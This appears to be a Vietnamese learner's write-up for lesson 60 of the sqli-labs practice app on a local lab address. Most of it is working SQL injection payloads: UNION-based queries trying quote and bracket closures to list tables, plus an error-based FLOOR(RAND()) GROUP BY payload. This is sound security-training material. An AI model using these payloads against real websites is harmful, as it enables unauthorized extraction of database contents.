






# Những việc làm được với lesson-60
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-60



- Lần 1
```
192.168.80.225/sqli-labs/Less-60/?id=0) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```



- Lần 2
```
192.168.80.225/sqli-labs/Less-60/?id=0') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```



- Lần thứ 4 : Vẫn chưa được. Phải reset đi và làm lại để tìm ^^
```
192.168.80.225/sqli-labs/Less-60/?id=0" union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```



1. Cấu trúc của bài này 

```
192.168.80.225/sqli-labs/Less-60/?id=0") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```



Còn lại làm tương tự các bài trước ta dùng error-base tìm tên table của DB đó 
```
192.168.80.225/sqli-labs/Less-60/?id=1") and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT table_name from information_schema.tables where table_schema='challenges' ), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



